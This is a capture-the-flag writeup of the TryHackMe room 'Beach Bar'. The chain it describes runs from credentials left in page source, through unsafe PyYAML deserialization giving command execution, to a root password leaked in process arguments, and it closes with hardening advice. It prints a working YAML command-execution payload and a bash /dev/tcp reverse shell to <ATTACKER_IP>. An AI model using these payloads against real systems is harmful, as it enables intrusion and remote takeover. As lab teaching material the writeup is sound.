










+++
title = 'Beach Bar | TryHackMe Room Writeup'
date = '2026-07-31T22:21:41+05:00'
lastmod = '2026-07-31T22:21:41+05:00'
draft = false
description = 'A beginner-friendly walkthrough of Beach Bar, a TryHackMe Linux challenge involving exposed credentials, unsafe YAML deserialization, and a password leaked through a root process.'
categories = ['Writeups']
tags = ['TryHackMe', 'Web Security', 'YAML', 'Python', 'Linux Privilege Escalation', 'Hacker Holidays']
topics = ['tryhackme']
toc = true
image = 'images/room-header.png'
+++

Welcome to my writeup for the TryHackMe room **[Beach Bar](https://tryhackme.com/room/hh-beachbar-d849f7f7)**, part of the **Hacker Holidays** series. This Linux challenge began with credentials hidden in a page-source comment, moved into remote code execution through unsafe YAML deserialization, and ended with a password exposed in a root process's command line.

> **Spoiler warning:** This walkthrough reveals the room's solution path, but both flags are masked.


The room's objectives were simple:

- find the user flag;
- find the root flag.

## Finding the DJ Login

The machine opened on a login form for the beach bar's DJ booth.



I initially tried a few simple username and password combinations, followed by some basic SQL injection payloads. None of them worked. I should have begun with one of the quickest web-enumeration checks: viewing the page source.

Inside an HTML comment was a staff note explaining that the demo DJ login was still enabled. It also disclosed the credentials directly:

```text
Username: dj
Password: dj
```



Signing in with `dj:dj` opened the jukebox dashboard. It showed the current set and, more importantly, offered **Import** and **Export** functions for playlists.



## Investigating the Playlist Import

Exporting the current playlist downloaded a YAML file, while the Import page accepted either pasted YAML or an uploaded `.yml` file. At first, I suspected a conventional file-upload vulnerability. Uploading a file did not make it accessible anywhere, however, so I focused on what the application did with the file's contents instead.

After an import, the page displayed the parsed playlist as a Python-like object representation rather than treating the input as plain text.



That behavior suggested that the server was deserializing the YAML. PyYAML supports Python-specific tags which can construct or invoke Python objects. Those tags become dangerous when an application parses untrusted input with an unsafe loader instead of `safe_load()` or `SafeLoader`.

I tested that theory with a small command-execution payload:

```yaml
!!python/object/apply:subprocess.check_output
- ["id"]
```

The imported result contained the output of `id`:

```text
uid=1001(bartender) gid=1001(bartender) groups=1001(bartender)
```



This confirmed arbitrary command execution as the `bartender` user.

## Getting a Reverse Shell

I started a listener on my attack machine:

```bash
nc -lvnp 4444
```

I then replaced the harmless `id` command with a Bash reverse shell. The screenshots use my lab address, but the reusable form of the payload is:

```yaml
!!python/object/apply:os.system
- "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'"
```



Loading the playlist caused the server to connect back to my listener and gave me a shell as `bartender`.



I enumerated the home directories and found the first flag in `/home/bartender/user.txt`:

```bash
ls /home
ls /home/bartender
cat /home/bartender/user.txt
```



## Privilege Escalation

The privilege-escalation path took me considerably longer to find, though it was stupidly simple in hindsight. I eventually transferred and ran [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), which drew my attention to the target's running processes.

A Python service named `jukeboxd.py` was running as `root`. More importantly, its command line included the root password in plaintext. The same information can be inspected manually with a command such as:

```bash
ps aux
```



Process arguments are normally visible to other local users on Linux. Passing a secret as a command-line argument therefore exposes it through tools such as `ps` and often through `/proc/<PID>/cmdline` as well.

With the leaked password, I switched to the root account:

```bash
su root
whoami
cat /root/root.txt
```

`whoami` returned `root`, and the second flag was waiting in `/root/root.txt`.



## Why the Exploit Chain Worked

The room combined three separate security mistakes:

```text
Credentials left in HTML source
              ↓
Authenticated playlist importer
              ↓
Unsafe YAML deserialization
              ↓
Command execution as bartender
              ↓
Root password visible in a process command
              ↓
Root access
```

The first issue exposed an account, but the account alone did not provide shell access. The second issue turned access to the playlist importer into arbitrary command execution. The final issue converted a low-privileged shell into full control of the host.

## Takeaways

Beach Bar reinforced a practical enumeration and hardening checklist:

- inspect page source, comments, scripts, and network requests before attempting more complicated attacks;
- never leave demo credentials in production code, even inside comments;
- treat deserialization of user-controlled data as a high-risk operation;
- use `yaml.safe_load()` or `SafeLoader` when PyYAML only needs to parse standard data types;
- do not pass passwords, API keys, or other secrets as process arguments;
- inspect running processes during Linux privilege-escalation enumeration;
- rotate any credential that has been exposed, rather than merely hiding it later.

The biggest lesson is that apparently small shortcuts can form a complete compromise when chained together. A forgotten demo login exposed the importer, the importer executed attacker-controlled Python objects, and a secret on a root command line removed the last privilege boundary.

And we're done!
